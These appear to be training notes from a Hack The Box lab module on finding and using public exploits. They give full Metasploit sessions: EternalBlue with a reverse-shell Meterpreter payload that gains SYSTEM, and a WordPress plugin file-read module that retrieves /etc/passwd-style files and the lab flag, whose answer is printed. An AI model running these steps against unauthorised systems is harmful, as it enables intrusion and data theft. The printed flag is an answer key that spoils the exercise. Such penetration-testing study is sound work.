

# Public Exploits
Once we identify the services running on ports identified from our Nmap scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like SSH or ftp.

## Finding Public Exploits
There are many tools to search for public exploits. One way is to use Google.

Another way is `searchsploit`:
```
searchsploit openssh 7.2
```

We can also utilize online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/).

## Metasploit Primer
As well we can use the Metasploit Framework. It has many built-in exploits and provides an easy way to use these. MSF can also:
* Running reconnaissance scripts to enumerate remote hosts and compromised targets
* Verification scripts to test the existence of a vulnerability without actually compromising the target
* Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
* Many post-exploitation and pivoting tools

Following is an example on how to use Metaspoloit:

Start the MSF:
```
$ msfconsole
```

Search for an public exploit:
```
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------

[...]

EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 

```

Select the exploit:
```
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

```

Show the options for the exploit:
```
msf6 > show options
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

[...]

```

Set configurations for the exploit:
```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Check if the target is vulnerable:
```
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Run the exploit and get a shell:
```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

## Questions
Answer the question(s) below to complete this Section and earn cubes!

```
Target: 94.237.59.206:38150 
Life Left: 89 minutes
```

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```
> HTB{my_f1r57_h4ck}
```

### Solution
Identifying the service with nmap:
```
$ nmap -sV -sC -p38150 94.237.59.206
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 10:26 EDT
Nmap scan report for 94-237-59-206.uk-lon1.upcloud.host (94.237.59.206)
Host is up (0.029s latency).

PORT      STATE SERVICE VERSION
38150/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Getting Started &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.6.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

The server is running a web server with a WordPress application.

If we inspect the application in the browser, we find a post over the plugin 'Simple Backup Plugin' in the version 2.7.10:


This version is outdated and has public exploits:
```
$ searchsploit wordpress simple backup plugin
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Simple Backup 2.7.11 - Multiple Vulnerabilities                                                          | php/webapps/39883.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Using Metasploit, we can find an exploit and successful run it against the application:
```
$ msfconsole
                                                  
    [...]

msf6 > search wordpress backup

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/unix/webapp/joomla_akeeba_unserialize          2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   1  exploit/multi/php/wp_duplicator_code_inject            2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   2  exploit/multi/http/wp_db_backup_rce                    2019-04-24       excellent  Yes    WP Database Backup RCE
   3  auxiliary/scanner/http/wp_simple_backup_file_read                       normal     No     WordPress Simple Backup File Read Vulnerability
   4  auxiliary/scanner/http/wp_total_upkeep_downloader      2020-12-12       normal     No     WordPress Total Upkeep Unauthenticated Backup Downloader
   5  auxiliary/scanner/http/wp_bulletproofsecurity_backups  2021-09-17       normal     No     Wordpress BulletProof Security Backup Disclosure
   6  exploit/multi/http/wp_plugin_backup_guard_rce          2021-05-04       excellent  Yes    Wordpress Plugin Backup Guard - Authenticated Remote Code Execution


Interact with a module by name or index. For example info 6, use 6 or use exploit/multi/http/wp_plugin_backup_guard_rce

msf6 > use 3
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.59.206
RHOSTS => 94.237.59.206
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 38150
RPORT => 38150
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > run

[+] File saved in: /home/kali/.msf4/loot/20231012104617_default_94.237.59.206_simplebackup.tra_541082.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > 
```

This gave us the flag:
```
$ cat /home/kali/.msf4/loot/20231012104617_default_94.237.59.206_simplebackup.tra_541082.txt
HTB{my_f1r57_h4ck}
```